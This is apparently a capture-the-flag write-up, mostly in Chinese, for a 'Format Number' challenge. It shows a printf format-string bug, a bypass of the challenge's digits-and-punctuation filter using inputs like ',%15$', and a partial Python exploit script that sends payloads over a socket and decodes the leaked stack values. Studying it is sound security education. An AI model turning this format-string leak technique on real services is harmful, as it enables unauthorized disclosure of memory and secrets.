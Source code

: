### Format Number

漏洞點：

```cpp=
char format[0x10] = {0};
printf("What format do you want ? ");
read(0, format, 0xf);
check_format(format);

char buffer[0x20] = {0};
strcpy(buffer, "Format number : %3$");
strcat(buffer, format);
strcat(buffer, "d\n");
printf(buffer, "Welcome", "~~~", number);
```

程序會讀取 flag 到 stack 上的 buf[256] 變數中。

```cpp=
if (!isdigit(c) && !ispunct(c)) {
    printf("Error format !\n");
    exit(1);
}
```

check_format() 只允許數字和標點符號，過濾掉字母

所以用 `,%N$`的格式來繞過
當輸入 `,%15$` 時，最終的格式字符串變成：
"`Format number : %3$,%15$d\n`"
這樣 `%15$d` 就是一個有效的格式說明符，可以讀取第 15 個參數的值。

```python=
#!/usr/bin/env python3
import socket
import re
import struct

def send_payload(host, port, payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.recv(1024)
    s.send((payload + '\n').encode())
    response = s.recv(1024).decode()
    s.close()
    return response

def extract_number(output):
    match = re.search(r'Format number : %,(-?\d+)', output)
    if match:
        return int(match.group(1))
    match = re.search(r'Format number : (-?\d+)', output)
    if match:
        return int(match.group(1))
    return None

def int_to_ascii(value):
    if value < 0:
        value = value & 0xFFFFFFFF
    bytes_data = struct.pack('<I', value)
    ascii_str = ''
    for byte in bytes_data:
        if 32 <= byte <= 126:
            ascii_str += chr(byte)
    return ascii_str

```